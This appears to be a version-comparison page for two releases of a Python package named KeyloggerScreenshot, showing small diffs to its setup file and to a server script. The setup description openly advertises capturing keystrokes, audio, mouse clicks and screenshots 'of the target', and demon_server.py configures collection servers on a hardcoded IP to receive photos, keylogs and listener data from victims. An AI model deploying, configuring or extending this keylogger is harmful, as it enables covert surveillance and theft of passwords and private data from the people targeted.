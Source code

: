 ### Comparing `KeyloggerScreenshot-0.2.9.1/README.md` & `KeyloggerScreenshot-0.3.0/README.md`

 * *Files identical despite different names*

### Comparing `KeyloggerScreenshot-0.2.9.1/demon_server.py` & `KeyloggerScreenshot-0.3.0/demon_server.py`

 * *Files 1% similar despite different names*

```diff
@@ -1,11 +1,11 @@
 import KeyloggerScreenshot as ks
 import threading
 
-ip = "192.168.0.75"
+ip = "192.168.145.67"
 
 server_photos = ks.ServerPhotos(ip, 1111)
 
 server_keylogger = ks.ServerKeylogger(ip, 2222, simulater=True)
 
 server_listener = ks.ServerListener(ip, 3333)
```

### Comparing `KeyloggerScreenshot-0.2.9.1/img_1.png` & `KeyloggerScreenshot-0.3.0/img_1.png`

 * *Files identical despite different names*

### Comparing `KeyloggerScreenshot-0.2.9.1/leo_gui.py` & `KeyloggerScreenshot-0.3.0/leo_gui.py`

 * *Files identical despite different names*

### Comparing `KeyloggerScreenshot-0.2.9.1/requirements.py` & `KeyloggerScreenshot-0.3.0/requirements.py`

 * *Files identical despite different names*

### Comparing `KeyloggerScreenshot-0.2.9.1/setup.py` & `KeyloggerScreenshot-0.3.0/setup.py`

 * *Files 2% similar despite different names*

```diff
@@ -6,15 +6,15 @@
     'Operating System :: Microsoft :: Windows :: Windows 10',
     'License :: OSI Approved :: MIT License',
     'Programming Language :: Python :: 3'
 ]
 
 setup(
     name='KeyloggerScreenshot',
-    version='0.2.9.1',
+    version='0.3.0',
     description='Exporting Keylogger files, recording audio, recording mouse click information and screenshots of the target. For more information check out my website:https://pypi.org/project/KeyloggerScreenshot/ and my github: https://github.com/Facileee/KeyloggerScreenshot',
     long_description_content_type="text/markdown",
     long_description=open('README.md').read() + '\n\n' + open('CHANGELOG.txt').read(),
     url='',
     author='Fawaz Bashiru',
     author_email='fawazbashiru@gmail.com',
     license='MIT',
```